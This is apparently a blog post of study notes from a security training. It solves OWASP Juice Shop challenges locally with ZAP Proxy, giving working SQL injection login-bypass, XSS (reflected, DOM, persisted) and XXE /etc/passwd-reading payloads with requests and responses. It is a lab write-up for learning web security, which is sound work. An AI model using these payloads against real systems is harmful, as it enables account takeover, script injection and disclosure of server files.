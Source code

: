 ```yaml
---
layout:            post
title:             Security Training Day 2
date:              2019-01-23 20:41:20 +0100
categories:        [tech]
tags:              [security, http, browser]
comments:          true
excerpt:           >
    My study notes of security training (day 2), including some ways of SQL
    injection, Cross-site scripting (XSS), and XML External Entity (XXE).
img_url:           /assets/bg-security-265130_1280.jpg
img_width:         1280
img_height:        853
---
```


## Overview

This post is mainly a review of what have been taught during the security
training in day 2. In aims to share knowledge and make us aware of the
importance of security. After reading this article, you will understand:

- SQL Injection
- XSS: Cross-Site Scripting
- XXE: XML External Entity

Reminder: the security tools used here are [ZAP
Proxy](https://github.com/zaproxy/zaproxy) and [Juice
Shop](https://github.com/bkimminich/juice-shop) -- probably the most modern and
sophisticated insecure web application.

## SQL Injection

A [SQL injection attack](https://www.owasp.org/index.php/SQL_Injection)
consists of insertion or "injection" of a SQL query via the input data from the
client to the application. A successful SQL injection exploit can read
sensitive data from the database, modify database data (Insert/Update/Delete),
execute administration operations on the database (such as shutdown the DBMS),
recover the content of a given file present on the DBMS file system and in some
cases issue commands to the operating system. SQL injection attacks are a type
of injection attack, in which SQL commands are injected into data-plane input
in order to effect the execution of predefined SQL commands. This section solves
SQL Injection challenge in Juice Shop.

**Login Admin.** Log in with the administrator's user account. Firstly, go to
login page <http://localhost:3000/#/login>, enter an arbitrary login and
password, such as `foo@example.com` and `123`. UI shows "Invalid user or
password". Now, inspect HTTP request and response in ZAP Proxy where the url of
the entry is <http://localhost:3000/rest/user/login>. Open request editor and
edit the request body (excerpt 1). By the way, we can also imagine the SQL
query should be similar to the following form (excerpt 2).

```json
{
  "email" : "foo@example.com",
  "password" : "123"
}
```

```sql
SELECT *
  FROM Users
 WHERE email='foo@example.com' AND pass='123'
```

The SQL injection can be done as the first query parameter `email`. Use simple
quote `'` to end the quote (just in case), use criterion `OR 1=1` to ensure the
WHERE clause is always true and does not depend on email value, and use comment
`--` to comment the rest of the query. So the modification and expected SQL
looks like the following:

```json
{
  "email" : "' OR 1=1; --",
  "password" : "123"
}
```

```sql
SELECT *
  FROM Users
 WHERE email='' OR 1=1; -- ' AND pass='123'
```

The response returns the email of admin account with the correct token:

```json
{
  "authentication" : {
    "token" : "eyJhbG...",
    "bid" : 1,
    "umail" : "admin@juice-sh.op"
  }
}
```

Understand the usage of token `eyJhbG...` by inspecting the source code of
`main.js`, and finds out that user token will be saved in browser's local
storage after login action:

```js
this.userService.login(this.user).subscribe(function (n) {
  localStorage.setItem('token', n.token),
  l.cookieService.put('token', n.token),
  sessionStorage.setItem('bid', n.bid),
  l.userService.isLoggedIn.next(!0),
  l.router.navigate(['/search'])
}, function (n) { ... }
```

Therefore, we can set token to local storage manually to be able to simulate the
login action in browser console. After that, the login is successful as
expected.

```js
localStorage.setItem('token', 'eyJhbG...');
```

## Cross-Site Scripting (XSS)

[Cross-Site Scripting
(XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)) attacks are
a type of injection, in which malicious
scripts are injected into otherwise benign and trusted websites. XSS attacks
occur when an attacker uses a web application to send malicious code, generally
in the form of a browser side script, to a different end user. Flaws that allow
these attacks to succeed are quite widespread and occur anywhere a web
application uses input from a user within the output it generates without
validating or encoding it. There're 3 types of XSS:

- Reflected XSS
- Persisted XSS
- DOM Based XSS

Different XSS filter can be found at [OWASP - XSS Filter Evasion
CheatSheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet).
This section solves different XSS challenges in Juice Shop.

**XSS Tier 0.** Perform a reflected XSS attack with
``<iframe src="javascript:alert(`xss`)">``. This can be done by providing a
malicious query parameter Order ID (`id`) in Track Result module
<http://localhost:3000/#/track-result?id=myOrder>. Using the following query
param will trigger a reflected XSS (value is url-encoded):

    http://localhost:3000/#/track-result?id=%3Ciframe%20src%3D%22javascript:alert(%60xss%60)%22%3E

**XSS Tier 1**. Perform a DOM XSS attack with
``<iframe src="javascript:alert(`xss`)">``. This can be done by manipulating the
query param `q` in "search" module (<http://localhost:3000/#/search?q=apple>).
The result is not escaped, which leads to XSS.

<p align="center">
  <img src="/assets/20190123-xss-1.png"
       alt="XSS Tier 1">
</p>

**XSS Tier 2.** Perform a persisted XSS attack with
``<iframe src="javascript:alert(`xss`)">`` bypassing a client-side security
mechanism. This can be done by manipulating the user creation form. Go to
register page <http://localhost:3000/#/register> and enter username / password
as `foo@example.com` and `12345`. Then, modify the HTTP request in ZAP Proxy and
resend the request to server:

```json
{
  "email" : "foo@example.com<iframe src=\"javascript:alert(`xss`)\">",
  "password" : "12345",
  "passwordRepeat" : "12345",
  "securityQuestion" : {
    "id" : 1,
    "question" : "Your eldest siblings middle name?",
    "createdAt" : "2019-01-23T19:56:54.665Z",
    "updatedAt" : "2019-01-23T19:56:54.665Z"
  },
  "securityAnswer" : "12345"
}
```

When internal users visit the admin page
<http://localhost:3000/#/administration>, an XSS will be triggered.

## XML External Entity (XXE) Processing

An [XML External Entity attack][1] is a type of attack against an application
that parses XML input. This attack occurs when XML input containing a reference
to an external entity is processed by a weakly configured XML parser. This
attack may lead to the disclosure of confidential data, denial of service,
server side request forgery, port scanning from the perspective of the machine
where the parser is located, and other system impacts. This section solves XXE
challenge in Juice Shop.

**XXE Tier 1.** Retrieve the content of `C:\Windows\system.ini` or `/etc/passwd`
from the server. First of all, we need to feed an entry-point for uploading
files, so that our XML file can be read by the server. One possibility is via
Customer Complain <http://localhost:3000/#/complain>, where a file can be
uploaded. By default, the input element only accepts file types `.pdf` and
`.zip`. This check can be skipped by choosing format option "All Support Types"
when browsing files (maybe different according to OS, I'm using macOS).

```html
<input _ngcontent-c17=""
       accept=".pdf,.zip"
       id="file"
       ng2fileselect=""
       type="file">
```

Then, choose a file to upload. For example, `~/feedback.xml`:

```xml
<msg>hi</msg>
```

Once uploaded, find out the server response and check if it reads the value.
From the response of <http://localhost:3000/file-upload>, we can extract the
following value:

> Error: B2B customer complaints via file upload have been deprecated for security reasons: &lt;?xml version=&quot;1.0&quot; encoding=&quot;UTF-8&quot;?&gt;&lt;msg&gt;Hi&lt;/msg&gt; (feedback.xml)

As you can see, the content of feedback has been extracted successfully. Further
more, the content has been expanded: XML header has been added. We can suppose
that XXE is possible in this case. Now, change the content of XML to the
following, where system entity `xxe` is defined and discloses the system
password file:

```xml
<!DOCTYPE msg [
<!ELEMENT msg ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<msg>&xxe;</msg>
```

Upload the same file again with the new content, then inspect the HTTP response
again:

> Error: B2B customer complaints via file upload have been deprecated for security reasons: &lt;?xml version=&quot;1.0&quot; encoding=&quot;UTF-8&quot;?&gt;&lt;!DOCTYPE msg [&lt;!ELEMENT msg ANY&gt;&lt;!ENTITY xxe SYSTEM &quot;file:///etc/passwd&quot;&gt;]&gt;&lt;msg&gt;### User Database# # Note that this file is consulted directly only when the sys... (feedback.xml)

The content is retrieved successfully.

## Conclusion

In this article, we saw the definition and challenges of three common security
problems: SQL Injection, Cross-Site Scripting (XSS) and XML External Entity
(XXE) processing. Through these challenges, we saw the impact of security
problems. Hope you enjoy this article, see you the next time!

[1]: https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing
